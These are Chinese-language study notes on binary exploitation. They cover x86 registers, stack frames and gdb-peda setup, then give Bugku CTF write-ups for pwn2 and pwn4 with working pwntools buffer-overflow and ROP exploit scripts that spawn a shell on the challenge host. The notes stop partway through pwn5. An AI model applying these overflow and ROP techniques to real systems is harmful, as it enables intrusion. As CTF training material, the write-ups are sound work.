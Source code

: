 # 基础知识
参考
https://blog.csdn.net/wang010366/article/details/52505345

## 寄存器
- 通用寄存器
  - 一般寄存器（eax、ebx、ecx、edx），索引寄存器（esi、edi），以及堆栈指针寄存器（esp、ebp）
- 特殊寄存器两类
  - 段地址寄存器（ss、cs、ds、es、fs、gs），标志位寄存器（EFLAGS），以及指令指针寄存器（eip）
## 分段内存
从高至低内存空间
Stack-->ss
Heap-->
BSS-->
Data-->ds
Code-->cs

## 重要的 汇编指令 及函数调用及销毁的栈帧流程
- CALL：调用指令，将当前的 eip 压入栈顶，并将 PTR 存入 eip，格式为 call ptr
- RET：返回指令，操作为将栈顶数据弹出至eip，格式为 RET

> 1. 将callee参数 逆序 压栈
> 
> ==call开始==
> 2. 将caller的next eip 压栈，更新eip为calle的地址(call fun())
> 3. 将caller的ebp压栈，更新ebp为callee的ebp(push ebp)
> 4. 将callee的局部变量压栈(esp-10,mov a b)
> 
> ==call结束==
> 5. 将callee的esp指向ebp，释放callee的局部变量(move esp ebp)
> 6. 将callee的ebp指向caller的ebp(pop ebp)
> 7. 将callee的esp指向caller的next eip(esp+1)
> 8. 将caller的esp+1，指向caller的栈顶，并next eip 赋值给eip，至此现场回复完毕(pop esp)

## gdb-peda kali 中安装
1. git clone https://github.com/longld/peda.git ~/peda
2. echo "source ~/peda/peda.py" >> ~/.gdbinit

## gdb-peda使用
1. cd /mnt/hgfs/Downloads/
2. file human
3. file /mnt/hgfs/Downloads/human
4. running human
5. exec-file human
6. break printf
7. r

参考教程： https://www.cnblogs.com/arnoldlu/p/9633254.html


## pwn2(bugku)
1. ROP,修改返回地址到内存中的代码
2. 将附件拖进IDA中，发现read(0, &s, 0x100uLL);存在溢出
3. 发现getshell函数中存在system（cat flag）可直接利用
4. 双击s变量，发现s中栈地址为0x30，64位ebp占用8个字节，返回地址位置为0x38 * 'a',getshell函数地址为0x400751,payload=0x38 * 'a'+p64(0x400751)
5. exp=>

```
from pwn import *
sh = remote("114.116.54.89", 10003)
print sh.recv()
payload="A" * 0x38 + p64(0x400751)
sh.sendline(payload)
sh.interactive()
```

## pwn4(bugku)
1. ROP,ida打开发现s存在溢出

```
  memset(&s, 0, 0x10uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Come on,try to pwn me");
  read(0, &s, 0x30uLL);
  puts("So~sad,you are fail");
  return 0LL;
```
2. 找到system函数地址0x400570，但system参数不为/bin/sh，经提示，打开strings窗口找到$0,地址为0x60111f
3. 由于64位的函数参数不压栈，放在寄存器里面，我们要想办法把$0放到寄存器中，需要pop rdi;ret;这样的指令，于是，我们利用ROPgadget工具查询指令

```
root@kali:/mnt/hgfs/Downloads# ROPgadget --binary pwn4  --only "pop|ret" | grep "rdi" 
0x00000000004007d3 : pop rdi ; ret
```
4. 找到地址后可构造payload = 'a'*0x18h +p64(0x4007d3)+p64(0x60111f)+p64(0x601020)

exp

```
from pwn import *

p = remote("114.116.54.89" ,10004)

system = 0x400570
pop_rdi_ret = 0x4007d3
bin_sh = 0x60111F

p.recvuntil('pwn me\n')
payload = 'a' * (0x10 + 8) 
payload += p64(pop_rdi_ret) 
payload += p64(bin_sh) 
payload += p64(system)
p.sendline(payload)
p.interactive()
```

## pwn5(bugku)
参考 https://blog.csdn.net/weixin_44954083/article/details/103500313
1. 查看nx，发现nx保护

```
root@kali:/mnt/hgfs/Downloads# checksec ./human
[*] '/mnt/hgfs/Downloads/human'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
2. 没有system，只能通过libc，libc的绝对地址=基地址+相对地址，动态调试，发现实际地址xxx，减去相对地址240，等于相对地址

```
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe148 --> 0x400821 (<main+139>:	lea    rax,[rbp-0x20])
0008| 0x7fffffffe150 --> 0xa3838 ('88\n')
0016| 0x7fffffffe158 --> 0x0 
0024| 0x7fffffffe160 --> 0x0 
0032| 0x7fffffffe168 --> 0x0 
0040| 0x7fffffffe170 --> 0x4008d0 (<__libc_csu_init>:	push   r15)
0048| 0x7fffffffe178 --> 0x7ffff7e16bbb (<__libc_start_main+235>:	mov    edi,eax)
0056| 0x7fffffffe180 --> 0x0
```


